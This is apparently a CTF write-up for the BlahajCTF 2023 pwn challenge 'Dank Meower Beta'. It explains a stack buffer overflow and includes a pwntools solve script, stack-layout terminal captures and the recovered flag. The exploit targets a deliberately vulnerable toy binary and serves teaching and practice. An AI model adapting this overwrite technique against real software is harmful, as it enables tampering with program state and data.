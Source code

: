 ```yaml
---
title: Dank Meower Beta
date: 2023-12-03
tags: 
- pwn
- buffer-overflow
- author-hartmannsyg
categories: BlahajCTF 2023
---
```


solved by {% person hartmannsyg %}

> I want to make a discord bot but I don't know how to use discord.py, so I made a prototype in C.

> Pst! I heard you were looking to get some flags from that flag shop over there, but they were out of stock. Luckily, I think I can help you with that... I've attached the source code of the shop [here](https://gist.github.com/azazazo/de242e67acada5e16be7c3b0745b5525), and you can download the binary [here](https://github.com/azazazo/blahajctf-files/raw/main/dank%20meower%20beta/guide). Contact me at `nc 188.166.197.31 30003` if you're still keen...

This is a simple buffer overflow challenge, with a helpful stack diagram even showing you the layout of the stack itself. The challenge already does a helpful job of explaining the basics of a buffer overflow. The stack diagram thing was cool and helpful. However, it seems that many people were stuck on how to give themselves the $2,147,483,647 (`0x7fffffff`) required to get the flag, since that requires one to input `0x7fffffff` as little-endian.

We can send the `0x7fffffff` input with a pwntools script:

{% ccb caption:solve.py gutter1:1-11 lang:py %}
from pwn import *
# target = process("./guide") # use this for local testing
target = remote("104.248.97.96", 30001)
for i in range(12):
    target.sendline(b'') # press enter through the buffer overflow guide

target.sendline(p64(0x1) + p32(0x1) + p32(0x1) + p32(0x1) + p32(2147483647)) # payload
target.sendline(b'2') # shop
target.recvline()
target.sendline(b'3') # buy flag
target.interactive()
{% endccb %}

Now let's look at our buffer overflow payload:
{% ccb lang:py caption:solve.py gutter1:7 %}
target.sendline(p64(0x1) + p32(0x1) + p32(0x1) + p32(0x1) + p32(2147483647)) # payload
{% endccb %}

{% ccb html:true terminal:true %}
<DIV STYLE="display:inline-block;white-space:pre;font-family:'Jetbrains Mono','Menlo',monospace;font-size:14px;"><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR><BR><BR>Current balance: $0<BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit<BR>lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                       </SPAN><SPAN STYLE="color:#DCDFE4;">             </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 01 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR><BR><BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit</SPAN></DIV>
{% endccb %}

We have overwriten `choice` with the value of 1, overwritten the stock counts of all three items with 1, and overwritten the value of balance with `0x7fffffff`

We can then proceed to buy the flag:

{% ccb html:true terminal:true %}
<DIV STYLE="display:inline-block;white-space:pre;font-family:'Jetbrains Mono','Menlo',monospace;font-size:14px;"><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                       </SPAN><SPAN STYLE="color:#DCDFE4;">             </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 01 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR><BR><BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit<BR>lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 32 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR>   </SPAN><SPAN STYLE="color:#56B6C2;">2<BR><BR><BR></SPAN><SPAN STYLE="color:#DCDFE4;">Welcome to the shop! What would you like to buy?<BR>1) Small blahaj (in stock) - $10<BR>2) Big blahaj (in stock) - $30<BR>3) Flag (in stock) - $2,147,483,647<BR></SPAN><SPAN STYLE="color:#E06C75;">$<BR></SPAN><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 33 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> ff </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 7f </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR>   </SPAN><SPAN STYLE="color:#56B6C2;">3<BR></SPAN><SPAN STYLE="color:#DCDFE4;">lower &gt;---------------------------------------------stack direction----------------------------------------------&gt; higher<BR>  choice                                  </SPAN><SPAN STYLE="color:#61AFEF;">in_</SPAN><SPAN STYLE="color:#98C379;">sto</SPAN><SPAN STYLE="color:#E5C07B;">ck                                                    </SPAN><SPAN STYLE="color:#E06C75;">balance<BR></SPAN><SPAN STYLE="color:#DCDFE4;">┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐<BR>│ 33 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │</SPAN><SPAN STYLE="color:#61AFEF;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#61AFEF;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#98C379;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 01 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E5C07B;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│</SPAN><SPAN STYLE="color:#E06C75;"> 00 </SPAN><SPAN STYLE="color:#DCDFE4;">│<BR>└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘<BR>   </SPAN><SPAN STYLE="color:#56B6C2;">3<BR><BR></SPAN><SPAN STYLE="color:#DCDFE4;">Congratulations! You now have your very own flag!<BR>Here's your flag: blahaj{buFf3r_50Lu710n5_R35157_cH4n935_1n_pH}<BR><BR>Current balance: $0<BR>1) Beg for money<BR>2) Visit shop<BR>3) Exit<BR></SPAN><SPAN STYLE="color:#E06C75;">$</SPAN></DIV>
{% endccb %}
